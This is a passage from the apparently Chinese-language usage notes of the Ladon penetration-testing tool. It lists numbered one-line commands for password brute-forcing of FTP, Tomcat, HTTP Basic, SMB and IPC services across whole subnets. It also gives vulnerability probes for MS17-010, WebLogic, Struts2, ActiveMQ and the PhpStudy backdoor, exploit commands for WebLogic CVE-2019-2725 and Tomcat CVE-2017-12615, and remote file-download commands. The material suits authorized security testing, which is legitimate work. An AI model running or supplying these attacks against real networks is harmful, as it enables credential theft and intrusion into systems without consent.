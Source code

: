 ##### 032 21端口 Ftp服务器密码爆破
Ladon 192.168.1.8/24 FtpScan

##### 033 8080端口 Tomcat后台登陆密码爆破
Ladon 192.168.1.8/24 TomcatScan
Ladon http://192.168.1.8:8080/manage TomcatScan

##### 034 Web端口 401基础认证密码爆破
Ladon http://192.168.1.8/login HttpBasicScan

##### 035 445端口 Impacket SMB密码爆破(Windowns)
Ladon 192.168.1.8/24 SmbScan.ini

##### 036 445端口 IPC密码爆破(Windowns)
Ladon 192.168.1.8/24 IpcScan.ini



### 漏洞检测/漏洞利用/Poc/Exp

##### 037 SMB漏洞检测(CVE-2017-0143/CVE-2017-0144)
Ladon 192.168.1.8/24 MS17010

##### 038 Weblogic漏洞检测(CVE-2019-2725/CVE-2018-2894)
Ladon 192.168.1.8/24 WeblogicPoc

##### 039 PhpStudy后门检测(phpstudy 2016/phpstudy 2018)
Ladon 192.168.1.8/24 PhpStudyPoc

##### 040 ActiveMQ漏洞检测(CVE-2016-3088)
Ladon 192.168.1.8/24 ActivemqPoc

##### 041 Tomcat漏洞检测(CVE-2017-12615)
Ladon 192.168.1.8/24 TomcatPoc

##### 042 Weblogic漏洞利用(CVE-2019-2725)
Ladon 192.168.1.8/24 WeblogicExp

##### 043 Tomcat漏洞利用(CVE-2017-12615)
Ladon 192.168.1.8/24 TomcatExp

##### 044 Struts2漏洞检测(S2-005/S2-009/S2-013/S2-016/S2-019/S2-032/DevMode)
Ladon 192.168.1.8/24 Struts2Poc


### FTP下载、HTTP下载

##### 045 HTTP下载
Ladon HttpDownLoad http://k8gege.org/Download/Ladon.rar

##### 046 Ftp下载 	
Ladon FtpDownLoad 127.0.0.1:21 admin admin test.exe
